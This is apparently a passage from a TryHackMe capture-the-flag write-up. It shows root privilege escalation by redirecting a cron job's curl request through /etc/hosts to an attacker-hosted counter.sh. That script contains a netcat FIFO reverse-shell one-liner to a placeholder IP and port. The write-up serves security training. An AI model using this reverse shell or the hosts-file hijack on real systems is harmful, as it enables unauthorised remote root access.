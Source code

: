 To do so there is an app call pspy that will help us live monitor all the process running in the system 

Github source: https://github.com/DominicBreuker/pspy?tab=readme-ov-file

![image](https://github.com/Slowdeb/Tryhackme/assets/76821053/2cfc668d-e314-48b3-add6-765ad797411f)

Let's send it to the target machine.

![image](https://github.com/Slowdeb/Tryhackme/assets/76821053/d77fe1fd-b1c0-429f-b0fb-5787c29f49a8)

This app monitors all the processes , it reveals any processes or scripts that are being executed.

![image](https://github.com/Slowdeb/Tryhackme/assets/76821053/5e50baa5-b7f8-41d4-9eda-5576189f717a)

As we can see system runs curl everyminute has a cronjob. 

Then it looks for counter.sh and executes it.

It is time we take advantage of /etc/hosts and the cronjob that runs everyminute.

We are going to modify the ip of the webserver and host a malicious counter.sh script so we can get a reverse shell has root.

Edit /etc/hosts:

![image](https://github.com/Slowdeb/Tryhackme/assets/76821053/1558cace-8503-4b85-a899-c7bf6452ffb0)

I did it this way since i could not get vi or nano to run in a proper way.

Now, let's setup a http server and host the counter file with our reverse shell in it.

This is the reverse shell that i used.

![image](https://github.com/Slowdeb/Tryhackme/assets/76821053/a091e2a5-d6f7-4a93-8a31-ae0ff334b5e3)

We have to created the directories that curl will look for when he runs.

```
/app/castle/application

counter.sh content:

#!/bin/bash

rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP PORT >/tmp/f


```

![image](https://github.com/Slowdeb/Tryhackme/assets/76821053/7733e277-69d5-4777-bb97-ea70cb729417)

Finally, start the http server in the mkingdom directory and wait for the curl command from the mkingdom server.

Important detail, we need to setup our http server on port 85, since it is the port that curl looks for.
